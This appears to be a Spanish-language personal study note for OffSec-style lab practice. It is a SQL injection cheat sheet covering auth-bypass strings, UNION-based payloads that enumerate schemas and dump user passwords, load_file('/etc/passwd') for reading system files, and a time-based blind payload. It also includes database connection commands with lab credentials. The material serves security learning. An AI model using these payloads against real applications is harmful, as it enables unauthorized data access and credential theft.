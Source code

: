 
## DESCRIPTION

Para conectarnos a una BBDD MySQL:

```
mysql -u root -p'root' -h 192.168.196.16 -P 3306 
```

Para conectaqrnos a una MSSQL:

```
mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth
```

Enumeracion:

![[Pasted image 20230703160925.png]]
Primero a probar:

```
offsec' OR 1=1 -- //
```

La consulta quedaría:

```
SELECT * FROM users WHERE user_name= 'offsec' OR 1=1 --
```
#### Mas información
* https://www.youtube.com/watch?v=C-FiImhUviM&ab_channel=S4viOnLive%28BackupDirectosdeTwitch%29
* https://portswigger.net/web-security/sql-injection
* Util para diferentes BBDD: https://portswigger.net/web-security/sql-injection/cheat-sheet

## EXPLOITATION

### OPTION 1: UNION-BASED

Ejemplos:

```
' UNION SELECT database(), user(), @@version, null, null -- //

' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //

' UNION SELECT null, username, password, description, null FROM users -- //
```

Procedimiento:

1º Buscar numero de columnas (si da error es qeu no hay esas columnas)

```
' order by 3;-- -'
```

MEJOR OPCIÓN: Tambien se puede usar lo siguiente, para ver donde se representan cada columna

```
' union select 1,2,3
```

![[Pasted image 20230509181201.png]]

OTRAS DIRECTIVAS:

Para escribir un fichero: `' union select "" into outfile 

Para concatenar columnas: ` group_concat()`

2º VER las bases de datos

```
' schema_name .... from information_schema.schemata
```

Si solo vemos una linea, podemos hacer agrupaciones con limit 0,1 ->1,1 ->1.2

Llegados hasta aqui tenemos que ir enumerando tablas, columnas y datos

3º Listar tablas

```
' union <<>> table_name <<>> from information_schema.tables where table_schema='x'
```

**!!NOTA IMPORTANTE!!** Se le puede añadir limit para hacer agrupaciones

4º Listar columnas

```
#MEJOR OPCIÓN
' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //

... colum:name ... from information_schema.columns where table_schema='X' and table_name='x'
```

5º Otras Queries SQL interesantes:

* database(): muestra la database utilizada
* version(): muestra la version de la bbdd MySQL accepts both _version()_ and _@@version_ statements.

```
' UNION SELECT null, username, password, description, null FROM users -- //

' or 1=1 in (select @@version) -- //
```
* user(): muestra el usuario que está corriendo la bbdd
* load_file("file"): muestra un fichero de la maquina (/etc/passwd)

**!!NOTA IMPORTANTE!!** 
* Puede que de algun problemita en la cadena, probar a ponerlo en decimal: Oxloquesea


### OPTION 1: TIME-BASED

![[Pasted image 20230502114042.png]]

Ejemplo de time-based (sería similar al ' and 1=1 -- //)

```
http://192.168.50.16/blindsqli.php?user=offsec' AND IF (1=1, sleep(3),'false') -- //
```

## MACHINES

* Hack The Box: 

**!!NOTA IMPORTANTE!!** 